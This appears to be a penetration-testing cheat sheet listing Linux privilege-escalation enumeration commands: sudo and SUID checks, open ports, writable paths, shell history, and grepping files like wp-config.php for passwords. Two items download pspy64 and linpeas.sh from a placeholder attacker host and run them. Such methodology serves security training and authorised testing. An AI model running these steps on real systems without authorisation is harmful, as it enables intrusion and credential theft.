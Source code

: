 # Local Privilege Escalation LPE Enumeration Methodology

### 1) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh

7) Interesting groups of the current user

        id

8) Environment Variables

        env

9) Command history

        history

        cat /home/user/.bash_history

11) Writeable files and directories of the current user

        find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

12) Chech the current user's PATH variable contents

        echo $PATH

13) World-writeable files and directories

        find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
        find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

14) Sensitive data from important files

        /var/www/html/wp-config.php

        strings FILE | grep -i password
